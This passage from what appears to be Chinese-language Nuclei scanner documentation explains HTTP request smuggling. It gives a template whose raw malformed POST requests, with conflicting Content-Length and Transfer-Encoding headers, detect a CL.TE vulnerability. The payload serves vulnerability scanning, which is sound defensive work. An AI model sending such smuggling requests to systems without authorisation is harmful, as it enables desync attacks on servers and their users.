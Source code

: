 ```yaml

      - type: word
        words:
          - "Unique string"
        part: body
```

#### HTTP 走私

HTTP 走私是在 [Portswigger’s Research](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) 最近讨论的主题中开始流行起来的一类 Web 攻击，如需深入学习，请参考原文。

在开源领域中，要检测 HTTP 走私是很困难的，尤其是请求本身是畸形的。Nuclei 可以依靠 [rawhttp](https://github.com/projectdiscovery/rawhttp) 引擎来可靠地检测出 HTTP 走私漏洞。

HTTP 走私的最基本例子是 CL.TE 走私，本例提供一个 CL.TE 走私漏洞检测的模板，设置 `unsafe: true` 属性来指定基于 rawhttp 引擎的请求。

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked

      0

      G
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked

      0

      G

    unsafe: true
    matchers:
      - type: word
        words:
          - 'Unrecognized method GPOST'
```
